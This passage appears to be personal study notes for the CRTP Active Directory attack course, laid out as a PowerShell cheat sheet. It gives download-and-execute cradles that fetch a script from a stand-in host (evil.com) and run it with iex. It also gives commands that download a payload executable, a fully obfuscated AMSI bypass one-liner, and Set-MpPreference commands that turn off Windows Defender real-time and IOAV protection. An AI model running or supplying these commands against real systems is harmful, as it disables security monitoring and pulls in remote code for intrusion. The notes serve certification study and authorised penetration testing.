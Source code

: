 ```yaml
---
description: Attacking and Defending Active Directory | Gaurav Sharma
---
```


# 📔 CRTP Notes

### Download executable Cradle

Old and lengthy -&#x20;

```
((New-Object Net.WebClient).DownloadString('http://evil.com/evil.ps1'))
```

New and better - (PSv3 onwards)

```
iex (iwr 'http://evil.com/evil.ps1')
```

NOTE : iwr is alias for **Invoke-WebRequest,** which can be used like -

```
Invoke-WebRequest -Uri "http://example.com/payload.exe" -OutFile payload.exe
or
iwr http://example.com/payload.exe -o payload.exe
```

### AMSI bypass -

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

### Bypassing Real time monitoring (admin access) -

```
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

### Bypassing Powershell Security -

#### using #Invisi-Shell

With Admin privileges -

```
RunWithPathAsAdmin.bat
```
